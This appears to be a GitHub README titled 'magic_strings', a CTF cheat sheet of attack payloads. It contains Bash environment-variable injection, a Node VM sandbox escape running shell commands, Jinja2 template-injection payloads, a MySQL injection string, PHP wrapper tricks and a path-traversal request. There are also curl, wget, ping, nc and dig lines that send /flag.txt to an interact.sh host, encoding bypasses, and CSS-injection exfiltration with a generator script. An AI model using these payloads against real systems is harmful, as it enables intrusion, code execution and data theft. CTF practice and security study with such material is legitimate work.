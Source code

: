# magic_strings
Handy bits for CTFs and life

### Bash 

#### ENV Vars
    BASH_ENV='$(id 1>&2)' bash -c 'echo hello'

    env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'

#### Encoding

    $'\151\144'

### NodeJS

#### Node VM

Escape Node VM Sandbox

    this.constructor.constructor("return this.process")().mainModule.require("child_process").execSync("id").toString()

### Python

#### Jinja2 / Template Injection

    {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
    {{config.__class__.__init__.__globals__['os'].environ}}

### MySQL 

MySQL >=5.6

    concat(0x404f73616e64614d616c6974680a, @@innodb_version ,0x0a,user(),0x0a, schema(), (select (@x) from (select (@x:=0x00), (@number:=0),(select (0) from (mysql.innodb_table_stats) where (@x:=concat(@x,0x0a,lpad(@number:=@number+1,2,0),0x2e20,database_name, 0x202d3e20 ,table_name,0x202d3e20 ,length(table_name)))))x))

### PHP

    data://data:text/plain,<?php system("id")?>
    
    php://filter/convert.base64-encode/resource=index.php

### Exfiltrate

    curl -T /flag.txt xxxx.interct.sh
    wget --post-file /flag.txt xxxx.interct.sh
    wget -U `cat /flag.txt` xxxx.interct.sh
    wget `base64 -w0 /flag.txt`.xxxx.interct.sh
    ping here.xxx.interact.sh
    ping $(head -c 32 /flag|base64|tr -d "="|tr "+" "-"|tr "/" ".").xxx.interact.sh
    nc nchere.xxx.interact.sh 80
    dig dighere.xxx.interact.sh
    git clone githere.xxx.interact.sh

### Path Traversal

    curl --path-as-is grafana.example.com/public/plugins/alertmanager/../../../../../../../../tmp/flag

### Bypass

#### utf8 normalization

      " 	%C0%A2 	%E0%80%A2 	%F0%80%80%A2 	Double quote 	
      ' 	%C0%A7 	%E0%80%A7 	%F0%80%80%A7 	Single quote 	
      < 	%C0%BC 	%E0%80%BC 	%F0%80%80%BC 	Less-than sign 	
      > 	%C0%BE 	%E0%80%BE 	%F0%80%80%BE 	Greater-than sign 	
      . 	%c0%2e %C0%AE 	%E0%80%AE 	%F0%80%80%AE 	Full stop 	
      / 	%c0%2f %C0%AF 	%E0%80%AF 	%F0%80%80%AF 	Solidus 	
      \ 	%c0%5c %C1%9C %c0%80%5c %E0%81%9C 	%F0%80%81%9C 	Reverse solidus

### XSS

#### CSS Injection

Abuse unicode range to exfiltrate charset

```css
@font-face {
    font-family:poc;
    src:url('//colab.com/A');
    unicode-range:U+0041;
}
@font-face {
    font-family:poc;
    src:url('//colab.com/B');
    unicode-range:U+0042;
}
#secret {
    font-family:poc;
}
...
```
Generator

```python
import string
colab = "xxx.interact.sh"
select = "h1"
for l in string.ascii_letters:
  print("@font-face{font-family:poc;src:url('//"+l+"."+colab+"/"+l+"');unicode-range:U+00"+ hex(ord(l))[2:]+";}",end="")
print(select+"{font-family:poc;}")
```

Attribute selectors

Contains: 

```css
a[href*="flag{"] {
  ...
}
```

Starts with:

```css
[class^="flag{A"] {
  background:url('//colab.com/A');
}
[class^="flag{B"] {
  background:url('//colab.com/B');
}
```


## Resources

- [Payloads All The Things]( https://github.com/swisskyrepo/PayloadsAllTheThings/ )
- [Reverse Shells Generator]( https://www.revshells.com/ )
- [De Obfuscate JS]( https://lelinhtinh.github.io/de4js/ )
- [XSS Cheat sheet]( https://portswigger.net/web-security/cross-site-scripting/cheat-sheet )
- [HackTricks]( https://book.hacktricks.xyz )
- [Compile Online]( https://rextester.com/ )
